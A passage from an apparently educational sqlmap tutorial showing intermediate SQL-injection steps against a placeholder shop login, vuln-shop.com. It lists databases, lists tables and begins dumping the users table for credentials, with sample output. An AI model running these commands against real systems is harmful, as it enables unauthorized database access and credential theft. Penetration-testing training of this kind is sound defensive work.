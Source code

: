- Understanding `risk` and `level` settings.
    

---

## **Level 2: Extracting Data (Intermediate)**

### Scenario: Dumping the Database

After confirming the vulnerability, let’s extract data.

#### Step 1: List All Databases

bash

Copy

sqlmap -u "http://vuln-shop.com/login.php?username=test&password=test" --dbs

**Output**:

sql

Copy

available databases [2]:
[*] vulnshop_db
[*] information_schema

#### Step 2: Dump Tables from `vulnshop_db`

bash

Copy

sqlmap -u "http://vuln-shop.com/login.php?username=test" -D vulnshop_db --tables

**Output**:

sql

Copy

Database: vulnshop_db
[2 tables]
+----------------+
| users          |
| products       |
+----------------+

#### Step 3: Extract User Credentials

bash

Copy

sqlmap -u "http://vuln-shop.com/login.php?username=test" -D vulnshop_db -T users --dump
